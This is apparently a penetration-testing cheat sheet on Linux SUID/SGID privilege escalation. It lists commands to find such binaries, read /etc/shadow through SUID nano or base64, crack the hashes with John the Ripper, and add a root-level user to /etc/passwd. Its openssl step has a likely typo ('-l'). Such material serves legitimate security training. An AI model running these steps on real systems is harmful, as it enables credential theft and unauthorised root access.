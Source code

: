 # SUID & SGID Executables
**SUID:** Set User ID is a type of permission that allows users to execute a file with the permissions of a specified user. Those files which have suid permissions run with higher privileges. Assume we are accessing the target system as a non-root user and we found suid bit enabled binaries, then those file/program/command can run with root privileges.

Basically, you can change the permission of any file either using the “Numerical” method or “Symbolic” method. As result, it will replace x from s as shown in the below image which denotes especial execution permission with the higher privilege to a particular file/command. Since we are enabling SUID for Owner (user) therefore bit 4 or symbol s will be added before read/write/execution operation. Basic Enumeration

**GUID** permission is similar to the SUID permission, only difference is – when the script or command with SGID on is run, it runs as if it were a member of the same group in which the file is a member

## 📌Enumeration:
```
find / -uid 0 -perm -4000 -type f 2>/dev/null 			# → Finds SUID files owned by root (UID 0), useful for privilege escalation.
find / -perm -u=s -type f 2>/dev/null | xargs ls -l		# → Finds files with SUID (Set User ID) permission and lists them in long format.
find / -perm -g=s -type f 2>/dev/null | xargs ls -l		# → Finds files with SGID (Set Group ID) permission and lists them in long format.
find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \;	# → Another way to find SUID files and list them in long format.
find / -group [user] 2>/dev/null				# → Finds files belonging to a specific group, replace [user] with the group name.
find / -user <xxx>						# → Finds files owned by user <xxx>, replace <xxx> with actual username.

find / -user <username> -type f 2>&1 | grep -v “Permission” | grep -v “No such”		# → Finds files owned by a specific user, filters out permission denied and missing file errors.
find / \( -perm -u+s -or -perm -g+s  \) -type f -exec ls -l {} \; 2>/dev/null		# → Finds both SUID and SGID files and lists them with ls -l.
```

A good practice would be to compare executables on this list with GTFOBins (https://gtfobins.github.io). Clicking on the SUID button will filter binaries known to be exploitable when the SUID bit is set (you can also use this link for a pre-filtered list https://gtfobins.github.io/#+suid).

## 📌Privilege Escalation using Nano Editor SUID Binary
The SUID bit set for the nano text editor allows us to create, edit and read files using the file owner’s privilege. Nano is owned by root, which probably means that we can read and edit files at a higher privilege level than our current user has. At this stage, we have two basic options for privilege escalation: reading the /etc/shadow file or adding our user to /etc/passwd.

### Method-1️⃣: Reading the /etc/shadow file
**nano /etc/shadow** will print the contents of the **/etc/shadow** file. We can now use the unshadow tool to create a file crackable by John the Ripper. To achieve this, unshadow needs both the **/etc/shadow** and **/etc/passwd** files.

**Step-1:** Copy and Save both /etc/passwd and /etc/shadow file content in attacking machine.

**Step-2:** Use the unshadow tool to create a file crackable by John the Ripper. 
```
unshadow passwd.txt shadow.txt > passwords.txt
```
**Step-3:** Use John the Ripper to crack the password
```
john --wordlist=/usr/share/wordlists/rockyou.txt passwords.txt
```

### Method-2️⃣: Add a new user that has root privileges.
**Step-1:** Generate the hash value of the password.
```
openssl passwd -l -salt <username> <password>		# → <username> your new user or currect username and <password> is newpassword.
```

**Step-2:** Open /etc/passwd using nano and chnage or add the new user password hash and shell.
```
root2:<hash>:0:0:root:/root:/bin/bash	# Change the <hash> with the generated hash value.
```
**Step-3:** Switch to the user using the newpassword
```
su <username>
id && whoami
```

## 📌Privilege Escalation using base64 SUID Binary
```
find / -type f -perm -04000 -ls 2>/dev/null
```
Using this command if we see the /usr/bin/base64 is SUID bit set then try to doing some steps to get root privilege.

**Step-1:** Reading the /etc/shadow file and save the content in attacking machine
```
/usr/bin/base64 /etc/shadow | /usr/bin/base64 -d
```
**Step-2:** Reading the /etc/passwd file and save the content in attacking machine.
```
cat /etc/passwd
```
**Step-3:** Use the unshadow tool to create a file crackable by John the Ripper. 
```
unshadow passwd.txt shadow.txt > passwords.txt
```
**Step-4:** Use John the Ripper to crack the password
```
john --wordlist=/usr/share/wordlists/rockyou.txt passwords.txt
```

# 🔎Other Techniques
You can use this article to see other techniques:👉 [https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/]
